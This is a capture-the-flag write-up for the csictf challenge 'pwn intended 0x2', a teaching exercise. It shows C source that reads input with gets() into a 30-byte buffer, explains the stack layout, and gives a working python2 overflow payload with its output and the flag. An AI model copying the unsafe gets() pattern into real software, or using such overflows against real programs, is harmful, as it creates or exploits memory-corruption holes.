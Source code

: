 # pwn intended 0x2

Author: [roerohan](https://github.com/roerohan)

## Description

Buffer overflow to overwrite a variable in the same function.

## Requirements

- Basic Knowledge of Buffer Overflow

## Sources

- [pwn-intended-0x2](./pwn-intended-0x2): Binary
- [pwn-intended-0x2.c](./pwn-intended-0x2.c)

```c
#include <stdio.h>

int main() {
    int check = 0;
    char teleport[30];

    puts("Welcome to csictf! Where are you headed?");
    gets(teleport);

    puts("Safe Journey!");
    if (check == 0xcafebabe) {
        puts("You've reached your destination, here's a flag!");
        system("cat flag.txt");
    }
}
```

```
Travelling through spacetime!
```

## Exploit

Similar to the [pwn-intended-0x1](./pwn%20intended%200x1) challenge, there is an array of `30 bytes`. The array `teleport` can be overflowed since the `gets()` function is used to read from it. Like in the previous challenge, the integer variable will occupy the last `4 bytes` before the `saved rbp`. The stack is of size 48, since that's the closest multiple of 16 after `30 + 4`.
<br />

The goal is to overwrite those last 4 bytes with `0xcafebabe`, but in little endian format. We can use `python2` to do this for us.

```bash
$ python2 -c "print 'a'*44 + '\xbe\xba\xfe\xca'" | ./pwn-intended-0x2
Welcome to csictf! Where are you headed?
Safe Journey!
You've reached your destination, here's a flag!
csictf{c4n_y0u_re4lly_telep0rt?}%
```

The flag is:

```
csictf{c4n_y0u_re4lly_telep0rt?}
```